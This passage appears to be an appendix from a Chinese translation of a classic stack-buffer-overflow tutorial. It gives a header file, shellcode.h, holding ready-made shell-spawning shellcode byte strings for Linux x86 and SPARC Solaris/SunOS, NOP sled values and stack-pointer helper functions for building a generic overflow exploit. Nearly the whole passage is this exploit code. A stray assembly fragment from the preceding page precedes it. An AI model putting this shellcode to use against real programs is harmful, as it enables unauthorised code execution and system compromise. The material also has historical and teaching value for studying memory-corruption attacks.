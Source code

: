 ```asm
ta %l5 + 1
```


## 附录 B - 通用缓冲区溢出程序

shellcode.h

```c
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE 1
char nop[] = "\x90";
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
    "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
    "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#endif
```
